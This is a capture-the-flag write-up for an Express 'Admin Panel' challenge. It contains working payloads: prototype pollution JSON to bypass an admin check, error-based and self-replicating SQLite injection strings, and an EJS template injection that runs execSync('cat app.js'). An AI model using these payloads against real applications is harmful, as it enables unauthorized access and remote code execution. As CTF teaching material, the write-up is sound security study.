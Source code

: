 
# Admin Panel

We are given an express app, with the flag inside the app.js file, so to solve it we need a LFI or RCE.
There are two routes `/upload` and `/admin` which allows us to upload custom `ejs` templates and render them respectively.
If we could do that, we could use the templating language for both RCE and LFI.

But to do that we need to become admin and therefore we need two things 

1. `req.session.isAdmin === true`
2. `req.session.user === 'admin`

Both are being set in `/login` route

```
if(typeof tmp.pw !== "undefined"){
            tmp.pw = tmp.pw.replace(/\\/gi,'').replace(/\'/gi,'').replace(/-/gi,'').replace(/#/gi,'');
}
        
```
Certain characters are removed in the password.

```
for(var key in tmp){
            user[key] = tmp[key];
        }
```
An object copy is made. This is an important part it will allow us to bypass certain restrictions.

```
if(req.connection.remoteAddress !== '::ffff:127.0.0.1' && tmp.id === 'admin' || typeof user.id === "undefined"){
            user.id = 'guest';
        }
req.session.user = user.id;
```

**The req.session.user** is directly set from the user input here as long as tmp.id !=='admin' when accessing the route remotely.

```
row = db.prepare(`select pw from users where id='admin' and pw='${user.pw}'`).get();
            if(typeof row !== "undefined"){
                console.log(row.pw);
                req.session.isAdmin = (row.pw === user.pw);
                console.log(req.session.isAdmin,req.session.user==='admin');
            }
```
The other admin condition is set here.

To set `req.session.isAdmin`, our password must be the same as the password returned from the sql login query.

We can clearly see **SQL injection** here but to break out of the `'` we need single quotes, which are restricted in the first code block above.


## Prototype pollution

To bypass this restriction and set req.session.user to `admin` we can use prototype pollution.
Express request parsing allows you to construct a customized object as per as you need.


```
{
	"__proto__":{"id":"admin", "pw": " '#~` "}
}
```

Sending this as the body in the POST request will do the following
1. tmp.pw will be undefined
2. When you copy the object properties, now user.pw will get our proto value
3. Similarly the tmp.id === 'admin' check will not return true as tmp.id is undefined, but user.id is not undefined


So now we have gotten **1/2 checks passed** to become an admin.

For the next one, we need to clear this condition `req.session.isAdmin = (row.pw === user.pw);`
To clear this our user.pw which will contain our sql injection payload should match the result of the sql query.

## SQL Injection

For this I thought I'll extract the admin's password and then just login through his password.

Blind injection techniques wouldn't work, there is no feedback. Sqlite does not have time related functions for time-based injection. 


But errors were being shown so I started looking for error payloads. While you can't extract data from error messages, you can use it to get feedback for blind extraction.
I found two error functions `json('x')` and `abs(-9223372036854775808)` to generate errors explicitly.

```
{
	"_proto_":{"pw":"' OR 1=1 and json('x')=id--","id":"admin"}
}
```
If the condition `1=1` is true our error will fire, otherwise no error.

But then I discovered that the users table is empty :/ So you can't extract a password, leaving with you only one option.

## Self Generating SQL query

The result of our SQL query should generate the entire injection payload. WTF!

To do that you obviously need some kind of repeat function. Sqlite doesn't have a straightforward function.
 
However you can use this ` replace(hex(zeroblob(X)),hex(zeroblob(1)),'string')` which will repeat 'string' X times.


```
Payload  :' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')--
Generates:' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||
```

Also to escape single quotes I used `char(39)` and `||` to concat strings.

As you can see the generated string is just a double copy. Now to cleanly generate the last 4 characters as well

```
Payload  :' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--
Generates:' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--
```

Now with this we can finally become admin

```
{
	"__proto__":{"pw":"' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--","id":"admin"}
}

```

Now we are only left with template injection which should be very easy.

## Template injection

We upload this payload

```
  <%- global.process.mainModule.require('child_process').execSync('cat app.js') %>

```
And use the `/admin?test=` route to render it.
This gets us the flag.

ASIS{t1me_t0_study_pr0t0type_p0llu7ion_4nd_ejs!}


